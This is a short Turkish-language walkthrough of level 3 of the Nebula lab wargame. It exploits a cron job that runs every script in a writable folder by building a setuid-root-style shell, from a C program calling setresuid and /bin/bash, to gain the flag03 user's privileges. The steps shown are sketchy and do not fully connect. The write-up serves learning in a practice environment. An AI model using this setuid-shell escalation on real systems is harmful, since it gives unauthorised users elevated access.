

```bash
ssh level03@192.168.154.137 # [nebulaIP]
```
Bu seviyede bir crontab bulunduğunu ve bir kaç dakikada bir çalıştığını söylüyor. Dizinde `writable.sh` ve `writable.d` bulunuyor.

```bash
# writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
Betiktende anlaşıldığı üzere writable.d/ nin altında bash te dosyayı çalıştırıyor ardından dosyayı siliyor.  Bu durumdan faydalanarak aşağıdaki kodu bu işlemde derletip flag03 yetkileriyle bir bash process i çağırabiliriz. 

```c
#include <stdlib.h>
#include <unistd.h>

void main() {
  setresuid(996, 996, 996); //996 flag03 un userid si
  system("/bin/bash");
}
```



```bash
# derleme işlemi
gcc /tmp/shell.c -o /home/flag03/shell;chmod 4777 /home/flag03/shell;chmod +x /home/flag03/writable.d/shell
```
